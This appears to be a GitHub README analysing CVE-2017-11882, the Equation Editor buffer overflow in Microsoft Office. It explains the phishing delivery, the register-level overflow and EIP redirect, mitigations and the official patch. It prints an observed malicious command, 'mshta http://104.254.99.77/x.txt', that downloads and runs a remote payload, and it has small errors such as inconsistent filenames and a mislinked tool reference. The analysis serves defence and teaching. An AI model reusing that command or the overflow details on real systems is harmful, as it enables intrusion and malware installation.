 # Microsoft Office Memory Corruption (CVE-2017-11882)  
![Word Logo](https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png)  

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
![CVSS](https://github.com/tingsama/hacking-p2/blob/main/CVSS.png)  


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
![Spam Email](https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png)


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
It is used to monitor and display all the activities of file system in real-time. [reference 1](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Process Monitor](https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png)  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
It is a set of tools used for penetration testing of web applications. [reference 2](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Burp Suite](https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png)  


### Steps after you click the malicious word file:
###### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside.  
![step 1](https://github.com/tingsama/hacking-p2/blob/main/step%201.png)  
###### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
![step 2](https://github.com/tingsama/hacking-p2/blob/main/step%202.png)  
###### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
![step 3-1](https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png)  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
![step 3-2](https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png)  
###### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
![step 4](https://github.com/tingsama/hacking-p2/blob/main/step%204.png)  
###### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
![step 5](https://github.com/tingsama/hacking-p2/blob/main/step%205.png)  
###### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
![step 6](https://github.com/tingsama/hacking-p2/blob/main/step%206.png)  
###### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.  
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.  
The following commands can update your registry to disable EQUAEDT32.exe.  
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice.
![Update Registry](https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png)  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.  
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.  
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.  
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]  
![Official Patc](https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png)  


